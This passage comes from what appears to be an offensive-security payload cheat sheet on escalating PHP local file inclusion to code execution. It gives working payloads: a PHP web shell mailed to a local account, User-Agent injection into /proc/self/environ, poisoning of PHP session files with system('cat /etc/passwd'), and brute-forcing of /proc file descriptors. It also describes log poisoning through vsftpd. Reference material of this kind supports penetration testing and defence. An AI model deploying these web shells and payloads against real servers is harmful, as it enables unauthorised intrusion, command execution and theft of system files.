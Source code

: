 Send a mail to a internal account (user@localhost) containing

```php
<?php echo system($_REQUEST["cmd"]); ?>
```

and access to the mail

```bash
/var/mail/USER&cmd=whoami
```

#### Via `/proc/*/fd/*`

1. Upload a lot of shells (for example : 100)
2. Include

```bash
http://example.com/index.php?page=/proc/$PID/fd/$FD
```

with `$PID` = PID of the process (can be brute forced) and `$FD` the file descriptor (can be brute forced too)

You can use `/proc/sys/kernel/ns_last_pid` to find the last PID opened.

#### Via `/proc/self/environ`

Like a log file, send the payload in the User-Agent, it will be reflected inside the `/proc/self/environ` file.

```php
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

#### Via PHP sessions

In PHP these sessions are stored into `/var/lib/php5/sess_[PHPSESSID]` files.

```php
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";

# Set the cookie to <?php system('cat /etc/passwd');?>
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

# Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

#### Via vsftpd logs

The logs of this FTP server are stored in `/var/log/vsftpd.log`. If you have a LFI and can access a exposed vsftpd server, you could try to login setting the PHP payload in the username and then access the logs using the LFI.


[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)
[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com